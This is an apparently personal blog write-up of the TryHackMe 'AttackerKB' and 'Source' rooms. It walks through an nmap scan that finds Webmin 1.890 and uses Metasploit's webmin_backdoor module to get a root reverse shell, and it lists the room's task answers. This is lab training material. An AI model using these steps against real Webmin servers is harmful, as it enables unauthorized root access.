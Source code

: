 ```yaml
---
layout: post
title: AttackerKB & Source | Writeup
categories: CTF
author: ThelastVvV
date: '2020-07-11 18:42:53 +0800'
tags:
  - CTF
  - CyberSecurity
  - TryHackMe
published: true
---
```



- [AttackerKB & Source](#AttackerKB-&-Source)
  * [Enumeration](#Enumeration)
   * [Exploitation](#Exploitation)
  * [Reverse shell](#Reverse-shell)
  * [AttackerKB Tasks](#AttackerKB-Tasks)
  

<!-- toc -->

## AttackerKB & Source

 Hallå gubbar , Today i will show you how easy this boxes are in a very simple explanation both [AttackerKB](https://tryhackme.com/room/attackerkb) &  [Source](https://tryhackme.com/room/source).
![alt text](https://thelastvvv.github.io/images/posts/1/bloggg.jpg "THM")


### Enumeration:

```sh
$ nmap -T4 -A -v -Pn Box-ip
```
Results:



> PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
| 2048 b7:4c:d0:bd:e2:7b:1b:15:72:27:64:56:29:15:ea:23 (RSA)
| 256 b7:85:23:11:4f:44:fa:22:00:8e:40:77:5e:cf:28:7c (ECDSA)
|_ 256 a9:fe:4b:82:bf:89:34:59:36:5b:ec:da:c2:d3:95:ce (ED25519)
10000/tcp open http MiniServ 1.890 (Webmin httpd)


### Exploitation
Source and AttackerKB:

One of the attached files of vulnerability is metasploit module that will allow us reverse shell the box so let open Metasploit


[https://github.com/rapid7/metasploit-framework/pull/12219]()


using this command:

```sh
$ msfconsole
```



then search "the exploit name or version"


![alt text](https://thelastvvv.github.io/images/posts/1/attack.png "search")


then choose 
```sh
$ unix/webapp/webmin_backdoor
```

![alt text](https://thelastvvv.github.io/images/posts/1/attavk.png "metasploit")



> RHOSTS : Box-ip

>RPORT: Box-port

>LHOST: Your-ip

>SSL : 1


### Reverse shell


![alt text](https://thelastvvv.github.io/images/posts/1/reverse.png "shell")


volia session opened we are root so let check the hints and hunt the flags

User Flag:

![alt text](https://thelastvvv.github.io/images/posts/1/flag1.png "flag1")


Root Flag:


![alt text](https://thelastvvv.github.io/images/posts/1/flagroot.png "flag2")

### AttackerKB Tasks:

Task 2 :

-Discovering the Lay of the Land :

From Nmap results we can find all our answers .....

Answers: 
`2-Webmin`

`3-1.890`

`4- from cert bellow figure it out`

Task 3 :

 learning to fly:

Just explore Attackerkb then we will be able to answer the following "important to copy directly from Attackerkb site 

Answers: 
`3 1.890` 

`4 supply chain`

 `5 aug172019`

`6 githubfileinthetitle`



See you next time .....
